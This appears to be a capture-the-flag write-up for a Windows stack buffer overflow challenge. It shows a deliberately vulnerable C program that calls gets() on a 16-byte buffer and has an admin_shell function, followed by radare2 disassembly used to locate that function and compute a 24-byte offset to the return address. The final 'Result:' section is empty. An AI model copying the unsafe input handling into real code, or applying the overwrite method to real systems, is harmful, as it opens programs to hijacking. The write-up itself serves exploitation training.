

```c
#include <stdio.h>
#include <stdlib.h>
#include <unistd.h>
#include <ctype.h>
 
#define DEFAULT_LEN 16
 
void admin_shell(void)
{
        system("C:\\Windows\\system32\\cmd.exe");
}
 
int main(void)
{
        char buff[DEFAULT_LEN] = {0};
 
        gets(buff);
        for (int i = 0; i < DEFAULT_LEN; i++) {
                buff[i] = toupper(buff[i]);
        }
        printf("%s\n", buff);
}
```

Using radare2 to get address of admin_shell and main:

```c
app-systeme-ch72@challenge05:~$ radare2.exe ch72.exe
[0x00401ad5]> / C:\\Windows\\system32\\cmd.exe\0                                                                                                                                                                                          
Searching 28 bytes in [0x401000-0x41e000]
hits: 1                                                                                                                                                                                                                                    
0x0041b000 hit2_0 .C:\\Windows\\system32\\cmd.exe\u0000%s.
[0x00401ad5]> /c 41b000                                                                                                                                                                                                                    
0x00401003   # 5: push str.C:__Windows__system32__cmd.exe
[0x00401347]> s 0x401000                                                                                                                                                                                                                  
[0x00401000]> pd                                                                                                                                                                                                               
           ;-- section..text:
           0x00401000      55             push ebp                    ; [00] -r-x section size 76288 named .text
           0x00401001      8bec           mov ebp, esp
           0x00401003      6800b04100     push str.C:__Windows__system32__cmd.exe ; section..data ; 0x41b000 ; "C:\Windows\system32\cmd.exe"
           0x00401008      e8bf2b0000     call 0x403bcc
           0x0040100d      83c404         add esp, 4
           0x00401010      5d             pop ebp
           0x00401011      c3             ret
           0x00401012      cc             int3
           0x00401013      cc             int3
           0x00401014      cc             int3
[...]
```

/ C:\Windows\system32\cmd.exe\0 to search address of the string is 0x0041b000
<br> /c 41b000 to get all references to that address and see the instruction push at 0x00401003
<br> Next, we s main to see main code to determinate what is the size we need to overflow and overwrites the return address

```c
;-- main:
           0x00401020      55             push ebp
           0x00401021      8bec           mov ebp, esp
           0x00401023      83ec14         sub esp, 0x14
           0x00401026      c645ec00       mov byte [ebp - 0x14], 0
           0x0040102a      33c0           xor eax, eax
           0x0040102c      8945ed         mov dword [ebp - 0x13], eax
           0x0040102f      8945f1         mov dword [ebp - 0xf], eax
           0x00401032      8945f5         mov dword [ebp - 0xb], eax
           0x00401035      668945f9       mov word [ebp - 7], ax
           0x00401039      8845fb         mov byte [ebp - 5], al
           0x0040103c      8d4dec         lea ecx, [ebp - 0x14]
           0x0040103f      51             push ecx
```
At start of main code we can see the stack frame allocation. The size allocated to it is 0x14 (20) bytes. But at first instruction the main function pushes the EBP register (4 bytes). If we sum, we have 24 bytes before the return address.

Result:



